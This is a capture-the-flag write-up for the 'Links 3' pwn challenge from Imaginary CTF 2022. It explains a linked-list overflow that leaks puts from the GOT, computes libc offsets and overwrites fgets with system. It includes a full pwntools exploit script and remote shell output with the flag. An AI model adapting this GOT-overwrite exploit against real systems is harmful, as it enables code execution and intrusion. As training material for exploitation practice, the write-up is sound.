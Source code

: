 ```yaml
---
name: Links 3 (2022)
event: Imaginary CTF 2022
category: Pwn
description: Writeup for Links 3 (Pwn) - Imaginary CTF (2022) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Links 3

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/GCkHwYBlsN8/0.jpg)](https://www.youtube.com/watch?v=GCkHwYBlsN8 "Links 3")

## Description

> And now you guys are exploiting my View Time feature that I put there solely for your convenience? Fine, then - no more time for you!

**[download challenge binary](https://imaginaryctf.org/r/iYVvf#links3)**

## Solution

I'll keep this short; since `Links 2`, the `view_time` function has been removed. We no longer have `system` in the GOT, but that doesn't matter.

As is common practice with stack-based buffer overflows, we can leak **any** Lib-C function address and then calculate our way back to the base of the binary. From there, we can add any offset we like to get the function of choosing, e.g. `libc.system` or a string, e.g. `libc."/bin/sh"`.

I chose to leak `got.puts`, when run against the server it leaks `0x7fbfd373eed0`. Once we get an address of a known function, we can take it to **[libc.blukat.me](https://libc.blukat.me)** or **[libc.rip](https://libc.rip)** and provide the function name and address.

We'll get a list of possible Lib-C library versions. The more functions we leak, the more we can narrow down the search.

In this case, the correct version was `libc6_2.35-0ubuntu3_amd64`, so we plug in the correct offsets.

```py
libc = puts - 0x80ed0
system = libc + 0x50d60
```

Running the binary, we get a shell.

```py
python exploit.py REMOTE puzzler7.imaginaryctf.org 2998
[+] Opening connection to puzzler7.imaginaryctf.org on port 2998: Done
[*] leaked got_puts: 0x7f470992eed0
[*] got_system: 0x7f47098fed60
[*] Switching to interactive mode
 What data do you want to write to this element?

>>> $ cat flag.txt
ictf{dammit_I'm_never_gonna_mix_up_64_and_0x64_again_it's_cost_me_three_flags_already}
```

**note:** If this write-up didn't make much sense, review `Links 1` and `Links 2` write-ups first 🙂

## Solve Script

```py
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg
break write_data
continue
'''.format(**locals())

# Binary filename
exe = './links3'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'info'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Start program
io = start()

# View time (populate system() in GOT)
io.sendlineafter(b'>>>', b'3')

# Add 5 elements to list
for i in range(5):
    io.sendlineafter(b'>>>', b'2')
    io.sendlineafter(b'>>>', str(i).encode())
    io.sendlineafter(b'>>>', b'CHUNK_' + str(i).encode())

# Overflow element pointer with got.system address
# This is because we need libc leak for x64 stack align
io.sendlineafter(b'>>>', b'2')
io.sendlineafter(b'>>>', b'3')
# Overwrite the link to point to GOT entry, 0x51 for next chunk size to keep list intact
io.sendlineafter(b'>>>', (b'\x00' * 64) + flat([elf.got.puts, 0x51]))

# View list (leak libc.puts() address)
io.sendlineafter(b'>>>', b'1')
io.recvuntil(b'3: ')
puts = unpack(io.recv()[4:10].ljust(8, b'\x00'))
info("leaked got_puts: %#x", puts)
# libc6_2.35-0ubuntu3_amd64 - https://libc.rip/
libc = puts - 0x80ed0
system = libc + 0x50d60
info("got_system: %#x", system)

# Modify element in list
io.sendline(b'2')
io.sendlineafter(b'>>>', b'1')
# Overwrite the link to point to GOT entry, 0x51 for next chunk size to keep list intact
io.sendlineafter(b'>>>', b'/bin//sh' + (b'\x00' * 56) + flat([elf.got.fgets, 0x51]))

# Add element to list
io.sendlineafter(b'>>>', b'2')
io.sendlineafter(b'>>>', b'2')
# Overwrite got.fgets with system
io.sendlineafter(b'>>>', flat(system))

# See if we've got a shell
io.sendlineafter(b'>>>', b'2')
io.sendlineafter(b'>>>', b'1')
# Got Shell?
io.interactive()
```
